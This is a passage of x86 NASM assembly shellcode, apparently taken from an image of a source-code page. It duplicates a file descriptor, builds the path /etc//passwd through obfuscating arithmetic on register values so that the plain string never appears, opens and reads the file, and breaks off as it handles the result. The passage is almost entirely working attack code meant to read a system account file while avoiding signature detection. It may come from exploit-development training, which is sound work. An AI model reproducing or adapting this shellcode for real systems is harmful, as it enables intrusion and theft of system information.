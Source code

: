 ```nasm
   	int 0x80

    	; dup2
    	mov esi, eax
    	push BYTE 0x1
    	pop ecx
    	mov BYTE al, 0x3F
    	int 0x80
    
    	;read the file
    	;jmp short call_shellcode
    
;shellcode:

    	;push 0x5
    	;pop eax
	xor eax, eax
	push eax		; null byte to terminate our /etc//passwd string
	mov al, 0x5

	;removing the jmp call pop
    	;pop ebx

	;"/etc//passwd"[::-1].encode("hex")
	; 6477737361702f2f6374652f

	mov ebx, 0x54676363
	add ebx, 0x10101010
	push ebx			; 0x64777373
	;------------------
	sub ebx, 0x3074444
	push ebx			; 0x61702f2f
	;------------------
	add ebx, 0x2043601
	dec ebx
	push ebx			; 0x6374652f
	;------------------
	mov ebx, esp

    	xor ecx,ecx
    	int 0x80
    
	;mov ebx,eax
	push eax
	pop ebx

	mov al,0x3
    	mov edi,esp
    	mov ecx,edi

    	;xor edx,edx
	cdq

    	;mov dh,0xff
    	;mov dl,0xff

	mov dx,0xffff
    	int 0x80

	;mov edx,eax
	push eax
	pop edx

```
